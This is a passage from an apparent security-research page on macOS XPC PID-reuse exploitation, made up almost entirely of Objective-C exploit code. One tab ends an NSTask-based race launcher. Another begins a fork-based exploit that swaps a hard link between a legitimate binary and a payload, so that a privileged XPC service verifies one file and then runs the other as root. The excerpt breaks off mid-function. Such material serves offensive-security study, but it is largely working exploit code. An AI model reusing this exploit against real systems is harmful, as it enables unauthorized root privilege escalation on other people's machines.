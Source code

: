 ```objectivec
        .tv_nsec = 500 * 1000000,
    };

    nanosleep(&ts, NULL);
    if (++i > 4) {
        for (int i = 0; i < RACE_COUNT; i++) {
            [processes[i] terminate];
        }
        return false;
    }

    return true;
}

int main(int argc, const char * argv[]) {

    if(argc > 1) {
        // called from the NSTasks
        child();

    } else {
        NSLog(@"Starting the race");
        create_nstasks();
    }

    return 0;
}
```
{% endtab %}

{% tab title="fork" %}
This example uses a raw **`fork`** to launch **children that will exploit the PID race condition** and then exploit **another race condition via a Hard link:**

```objectivec
// export OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES
// gcc -framework Foundation expl.m -o expl

#include <Foundation/Foundation.h>
#include <spawn.h>
#include <pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS
@protocol HelperProtocol
- (void)DoSomething:(void (^)(_Bool))arg1;
@end

// Global flag to track exploitation status
bool pwned = false;

/**
 * Continuously overwrite the contents of the 'hard_link' file in a race condition to make the 
 * XPC service verify the legit binary and then execute as root out payload.
 */
void *check_race(void *arg) {
    while(!pwned) {
        // Overwrite with contents of the legit binary
        system("cat ./legit_bin > hard_link");
        usleep(50000);

        // Overwrite with contents of the payload to execute
        // TODO: COMPILE YOUR OWN PAYLOAD BIN
        system("cat ./payload > hard_link");
        usleep(50000);
```